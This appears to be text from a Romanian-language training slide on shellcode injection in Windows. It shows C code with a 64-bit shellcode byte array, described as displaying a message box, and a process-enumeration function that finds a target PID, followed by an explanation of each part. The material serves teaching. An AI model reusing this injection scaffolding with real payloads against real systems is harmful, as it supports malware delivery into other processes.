

#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

// MessageBox shellcode - 64-bit
unsigned char payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
  0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
...
  0x78, 0x70, 0x65, 0x72, 0x69, 0x6d, 0x65, 0x6e, 0x74, 0x65, 0x20, 0x6c,
  0x61, 0x20, 0x41, 0x54, 0x4d, 0x20, 0x7c, 0x3d, 0x2d, 0x00, 0x7c, 0x4c,
  0x61, 0x62, 0x6f, 0x72, 0x61, 0x74, 0x6f, 0x72, 0x7c, 0x00
};
unsigned int payload_len = 334;

int FindTarget(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;

        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

        pe32.dwSize = sizeof(PROCESSENTRY32);

        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }

        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }

        CloseHandle(hProcSnap);

        return pid;
}

# Injectia de Shellcode (I)
Include Directives - Aceste directive îi spun compilatorului să includă informații din bibliotecile externe specifice sistemului de operare Windows și standardul C++:

#include <windows.h> // Pentru funcții specifice Windows.
#include <stdio.h>        // Pentru input/output standard, de exemplu printf.
#include <stdlib.h>       // Pentru funcții standard de alocare și conversie.
#include <string.h>       // Pentru manipularea șirurilor de caractere.
#include <tlhelp32.h>  // Pentru funcții de snapshot pentru procese.

Shellcode - Acest array payload este un bloc de cod în limbaj de asamblare convertit în format hexazecimal. Codul poate fi folosit pentru a efectua o acțiune specifică, în acest caz, afișarea unui messagebox:

unsigned char payload[] = { ... };
unsigned int payload_len = 334; // Lungimea shellcode-ului în bytes.

Funcția FindTarget - Această funcție caută procesul cu numele specificat și returnează identificatorul de proces (PID):

int FindTarget(const char *procname) { ... }

    CreateToolhelp32Snapshot - Creează o listă instantanee a tuturor proceselor din sistem.
    Process32First & Process32Next - Iterează prin procesele listate în snapshot pentru a găsi procesul dorit.